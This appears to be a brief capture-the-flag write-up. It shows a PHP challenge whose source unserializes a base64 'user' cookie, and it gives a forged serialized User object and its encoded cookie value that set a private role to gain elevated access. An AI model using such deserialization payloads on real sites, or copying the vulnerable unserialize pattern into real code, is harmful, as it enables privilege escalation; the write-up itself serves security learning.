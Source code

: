 # 25 AUG 2021 | POI 


no interesting stuff in the site , view sorce code :

![image](https://user-images.githubusercontent.com/67979878/130844912-a7d2071a-acb1-4d5d-a372-20bbf3000087.png)

if we press voldemort on right-top we can view source

```php
 <?php

Class User
{
    private $role = "Guest";

    public function GetInfo()
    {
        include("titles.php");

        if($this->role === "Voldemort")
        {
            return $Title_A;
        }
        else
        {
            return $Title_B;
        }
    }

}
?>
<?php
    include("user.php");

    if(isset($_COOKIE["user"]))
    {
        $user = unserialize(base64_decode($_COOKIE["user"]));
    }
    else
    {
        $user = new User();
    }

?>
```
so as we can see if we have a cookie code flow will enter ther unserialize() method which is Vulnerable

cookie is base64 encoded and to be unserialized it should be like :

serialized data :

O:4:"User":1:{s:10:".User.role";s:9:"Voldemort";}

`Tzo0OiJVc2VyIjoxOntzOjEwOiIuVXNlci5yb2xlIjtzOjk6IlZvbGRlbW9ydCI7fQ==`

### note | we use .User.role beacuse it it private


![image](https://user-images.githubusercontent.com/67979878/130849522-728cbdd8-b0b3-41b0-aa06-1ea2520cff16.png)







# done






